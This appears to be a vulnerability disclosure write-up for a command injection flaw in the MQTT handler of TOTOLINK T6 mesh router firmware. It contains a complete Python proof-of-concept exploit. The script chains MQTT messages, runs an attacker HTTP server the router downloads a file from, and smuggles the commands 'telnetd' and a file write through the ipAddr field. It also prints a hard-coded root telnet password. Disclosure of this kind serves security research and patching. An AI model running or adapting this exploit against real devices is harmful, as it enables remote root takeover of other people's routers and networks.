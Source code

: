 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the MQTT packet handler function `ckeckKeepAlive` in file `wireless.so` .An attacker can implement a RCE attack by sending a malicious MQTT packet.

# Vulnerability details

Here is the code that handle request to MQTT packet `ckeckKeepAlive`. The `ipAddr` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](7/1.png)

![image-1](7/4.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](7/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](7/3.png)

However, to exploit the command injection, you must satisfy the conditions

- apmib_get call to get value at 0x46AB. This value must not be 0. This can be bypass by calling MQTT function `setWiFiMeshConfig`. For more information, see POC section
- File `/var/meshInfo.ini` must be exist. This can be bypass by setting up a http server and calling MQTT function `updateWifiInfo`. For more information, see POC section
- Param `macAddr` must have valid format. To bypass this, just use random Mac address (for example 3A:7C:F2:91:5E:B4) should work.

![image-3](7/5.png)

# POC

```python
import paho.mqtt.client as mqtt
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading


# Define the handler to serve files or respond to requests
class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # Customize the GET request handling as needed
        super().do_GET()

# Start a server in a separate thread
def start_server(PORT = 80):
    Handler = MyHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print(f"[*] Serving on port {PORT}")
    httpd.serve_forever()

def start_http_server():
    # Run server in a new thread
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True  # Allow server to exit when main program exits
    server_thread.start()

    # Your program can continue running here without hanging
    print("[*] Server is running in the background...")
    
def set_0x46AB(client, value):
    mqtt_data = b'''
    {
        "effectType":"2",
        "masterMode":"%d"
    }
    ''' % value
    
    client.publish("totolink/router/setWiFiMeshConfig", mqtt_data)

def trigger_download_messInfo_ini(client, my_ip):
    mqtt_data = b'''
    {
        "serverIp":"%s",
        "newMd5":"1234"
    }
    ''' % my_ip.encode()
    
    client.publish("totolink/router/updateWifiInfo", mqtt_data)

def execute_command(client, cmd):
    mqtt_data = b'''
    {
        "ipAddr":";%s;",
        "macAddr":"3A:7C:F2:91:5E:B4"
    }
    ''' % cmd.encode()
    
    client.publish("totolink/router/ckeckKeepAlive", mqtt_data)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    client = mqtt.Client()
    client.connect(target_ip, 1883, 60)
    
    set_0x46AB(client, 1)
    print("[+] Set apmib 0x46AB Ok")
    
    time.sleep(3)
    
    start_http_server()
    print("[+] http server is running background")
    
    f = open("meshInfo.ini", "w")
    f.write("Pwned by Elvis!!!")
    f.close()
    
    trigger_download_messInfo_ini(client, my_ip)
    print("[+] Trigger download meshInfo.ini ok")
    
    for i in range(0, 10):
        time.sleep(1)
    
    execute_command(client, "telnetd;echo Pwned by Elvis!!! > /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    for i in range(0, 5):
        time.sleep(1)
```

[Video](https://www.youtube.com/watch?v=Wox7br4T3W8)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.